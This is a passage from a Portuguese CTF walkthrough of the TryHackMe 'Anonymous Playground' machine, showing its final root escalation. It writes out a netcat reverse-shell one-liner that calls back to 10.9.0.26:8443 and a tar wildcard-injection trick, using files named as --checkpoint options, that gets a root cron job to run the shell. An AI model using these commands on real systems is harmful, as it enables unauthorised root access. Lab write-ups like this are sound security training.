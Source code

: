 Agora precisamos criar o script que irá fazer a conexão reversa na nossa máquina alvo.

```bash
spooky@anonymous-playground:/home/spooky$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.0.26 8443 >/tmp/f" > shell.sh
```
Agora adicionamos a ação do nosso checkpoint, que será executar nosso script.

```bash
spooky@anonymous-playground:/home/spooky$ echo "" > "--checkpoint-action=exec=sh shell.sh"
```
E por fim, adicionamos o checkpoint de fato.

```bash
spooky@anonymous-playground:/home/spooky$ echo "" > --checkpoint=1
```

Após um minuto, a cron irá rodar e nos dar o reverse shell com `root`.

<img src="/thm/thm-anonymousplayground-14.png">

E conseguimos o shell com `root`.

A terceira `flag.txt` se encontra em `/root`.

### Conclusão

Esta máquina foi bem divertida, pois teve uma variedade de ações entre criptografia, buffer overflow, movimento lateral, wildacrd injection...
É o tipo de trabalho que nos força a `sair da caixa`.
